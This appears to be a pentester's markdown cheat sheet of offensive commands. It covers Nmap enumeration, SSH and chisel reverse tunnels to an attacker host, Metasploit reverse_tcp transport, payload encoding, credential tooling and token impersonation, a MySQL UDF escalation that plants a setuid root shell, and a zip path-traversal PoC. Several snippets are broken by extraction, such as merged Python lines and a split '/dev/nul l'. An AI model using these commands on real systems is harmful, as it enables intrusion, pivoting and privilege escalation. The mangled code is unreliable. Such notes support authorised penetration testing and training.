 
# Common 

- [CyberChef](https://gchq.github.io/CyberChef) - The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis
- [OSINT Framework](https://osintframework.com/)

## Enumeration

### Nmap
```
$pwd/tools/general/onetwopunch.sh -t targets.txt -i tap0 -n '-n -vvv -T4  -sV -sC -A --osscan-guess --version-all -oA "$pwd/_output/$(target_ip)/full_tcp_unicorn_nmap" --script=*vuln*'
```
```
nmap -n -vvv -T4 -sV -sC -A --osscan-guess --version-all -p- -oA "$pwd/_output/$(target_ip)/full_tcp_nmap" $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -p- -oA "$pwd/_output/$(target_ip)/full_quick_tcp_nmap" $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -p- -oA "$pwd/_output/$(target_ip)/full_formated_tcp_nmap" --stylesheet https://raw.githubusercontent.com/snovvcrash/snovvcrash.github.io/master/reports/nmap/nmap-bootstrap.xsl $target
```

### NBTScan
```
nbtscan $target_ip/24 | tee $pwd/_output/$(target_ip)/nbtscan.txt
```

### nping
```
nping –tcp -p 80 -c 4 –flags SYN $target_ip
```
```
nping –tcp-connect -c 1 -p 3389 $target_ip
```

## Searching 

```
grep -rnw /home -e "^.*test.*test.*" -l --color
```

## Pivoting 

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

Using chisel: <https://github.com/jpillora/chisel>
- From attacker:
```
.\chisel.exe server -p 8000 --reverse
```
- From victim:
```
.\chisel.exe client 10.10.14.10:8000 R:223:localhost:14147
```

## Docker 

File path
```
docker_path=/proc/$(docker inspect --format <ContainerID>)/root
```

Transfer:
```
docker save uzyexe/nmap -o nmap.tar
# ...
docker load -input nmap.tar
docker run --network=br0 -it --rm uzyexe/nmap 
```

Check if in Docker guest:
```
cat /proc/self/cgroup | grep docker
```

## Metasploit
```
set AutoRunScript multi_console_command -r $pwd/payloads_linux/automigrate.rc
```
```
set AutoRunScript post/windows/manage/migrate
```
```
set AutoRunScript windows/gather/enum_logged_on_users
```
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
```
transport add -t reverse_tcp -l 10.11.0.4 -p 5555
transport list
```
```
load powershell
load kiwi
```
```
route add 192.168.1.0/24 11
route print
use multi/manage/autoroute
use auxiliary/server/socks4a
portfwd add -l 3389 -p 3389 -r 192.168.1.110
```
```
use incognito
list_tokens -u
impersonate_token example\\Administrator
```

## MySQL

46249
```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

## Enabling Logs

- MySQL:
    ```bash
    sudo sed -i "s/#general_log/general_log/g" /etc/mysql/my.cnf 
    sudo sed -i "s/#general_log/general_log/g" /etc/mysql/mysql.conf.d/mysqld.cnf
    sudo sed -i "s/#general_log/general_log/g" /etc/mysql/conf.d/mysqld.cnf
    ```
    ```bash
    sudo systemctl restart mysql
    ```
    ```bash
    sudo tail -f /var/log/mysql/mysql.log
    ```
- PostgreSQL
    ```bash
    echo "log_statement = 'all'" >> postgresql.conf  #none, ddl, mod, all. written to pgsql_log
    ```
    ```
    pgsql\data\amdb\pgsql_log\
    ```
- PHP
    ```bash
    echo "display_errors = On" >> /etc/php5/apache2/php.ini
    echo "display_errors = On" >> /etc/php6/apache2/php.ini
    echo "display_errors = On" >> /etc/php7/apache2/php.ini
    ```
    ```bash
    sudo systemctl restart apache2
    ```
    ```bash
    sudo tail -f /var/log/apache2/error.log
    ```

## Ping check 
```
tcpdump -i tun0 icmp 
```

## Python Snippets 

Create ZIP file"
```python
#!/usr/bin/python
import zipfile
from cStringIO import StringIO

def build_zip(): f = StringIO()
  z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
  z.writestr('poc/poc.txt', 'poc')
  z.writestr('../../../../../../../../../../tmp/poc.txt', 'poc')
  z.close()
  zip = open('poc.zip','wb')
  zip.write(f.getvalue())
  zip.close()

build_zip()
```

HTTP Request
```python
import sys
import requests
import urllib3 urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def main():
    if len(sys.argv) != 2:
        print "[+] Usage   : %s <target>" % sys.argv[0] 
        print "[+] Example : %s target" % sys.argv[0]
        sys.exit(1)

    target = sys.argv[1]
    param = "example"
    rsp = requests.get('https://%s:8080/example' % target, params='test=%s' % param, verify=False)
    print rsp.text
    print rsp.headers

if __name__ == '__main__': 
    main()
```

## Crypto

Base64 to Hex

```
echo -n '4as8gqENn26uTs9srvQLyg==' | base64 -D | xxd -p
```
